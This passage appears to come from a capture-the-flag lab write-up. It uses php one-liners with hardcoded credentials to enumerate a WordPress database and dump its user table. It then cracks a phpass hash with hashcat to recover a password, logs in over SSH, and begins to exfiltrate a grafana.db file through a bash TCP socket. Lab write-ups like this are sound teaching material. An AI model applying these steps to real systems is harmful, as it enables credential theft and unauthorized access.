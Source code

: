 
> We could also enumerate the database and tables using the following commands from the `php` binary present on the docker host (without port forwarding)
{: .prompt-info}

```
# Database
php -r '$c=new mysqli("172.17.0.1","wp_user","wp_password");foreach($c->query("SHOW DATABASES")as$r){echo $r["Database"]."\n";};$c->close();'
# Tables
php -r '$c=new mysqli("172.17.0.1","wp_user","wp_password","wordpress");foreach($c->query("SHOW TABLES")->fetch_all()as$r)echo$r[0]."\n";'
# Rows
php -r '$c=new mysqli("172.17.0.1","wp_user","wp_password","wordpress");$q=$c->query("SELECT * FROM wp_users");while($r=$q->fetch_assoc())print_r($r)."\n";'
```
![DESC](file-20250504204755551.png)

### Password Cracking

```bash
cat hashes
| root       | $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1 |
| shawking   | $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./ |

cat hashes | awk '{print $2":"$4}'
root:$P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1
shawking:$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./
```
Now cracking with hashcat

```
hashcat hashes --show --username
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

400 | phpass | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

shawking:$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./:quantumphysics

```

## Foothold on the machine
With the obtained credentials we can now access the machine via `ssh` as `shawking`

![DESC](file-20250502033326542.png)

### Enumerating the host
Looking around for interesting files we find a `grafana.db` file on the `/opt/grafana/data/` folder. We can send this file to our host using the bash TCP socket
